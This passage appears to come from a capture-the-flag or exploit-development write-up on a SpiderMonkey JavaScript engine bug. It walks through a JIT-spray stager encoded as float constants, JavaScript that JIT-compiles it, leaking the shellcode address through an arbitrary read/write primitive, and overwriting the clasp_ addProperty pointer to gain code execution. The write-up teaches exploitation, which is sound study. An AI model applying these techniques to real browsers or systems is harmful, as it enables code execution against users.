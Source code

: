 ```ruby
nop
nop

# 1.4501798483875178e-277
and rdi, rcx
cmp al, al

# 1.4345589835166586e-277
push 7
pop rdx
push 10
pop rax

# 1.616527814e-314
push rcx
syscall
ret
```

So why did we assign this function as a property of `buf[7]`? Well, we know the address of `buf[7]` and thus we can get the address of any of its properties using our arbitrary read primitive. Thus in this way we can get the address of this function. But before proceeding further lets first JIT compile our function....

```js
for (i=0;i<100000;i++) buf[7].func()
```

Cool, now we have compiled our own shellcode! But hold on we don't know the address of that shellcode yet.... But that is why we assigned this function as a property of `buf[7]`. Since this is the latest property added, it will be at the top in the `slots` buffer and with the arbitrary read that we have, we can easily read this address.

Once we have the base address of the function, we can leak a JIT pointer from the `JSFunction`'s  `jitInfo_` member. After this we just have to find where the shellcode starts, which is the reason that we have included a magic value at the start of the shellcode.

So now we have all that we need to achieve control flow - a target to overwrite, a target to jump to and an arbitrary `rw` primitive. So lets go and overwrite that `clasp_` pointer that we have had our eye on!

First we create a `Uint8Array` to hold our shellcode. Then we get the address of this `Uint8Array` the same way we found out the address of that function with which we compiled our shellcode. Our aim is to get the address of the buffer where our shellcode is saved. Once we get the starting address of the `Uint8Array` that holds the shellcode, we just add `0x38` to this and we get the address of the buffer where our raw shell code is stored.

Remember that this region is not executable yet, but we will make it so by using our stager shellcode. In this exploit I will be using the function pointer for `addProperty` to gain code execution. This pointer is triggered, as the name suggests, when we try to add a property to an object.

```js
obj.trigger = some_variable
```
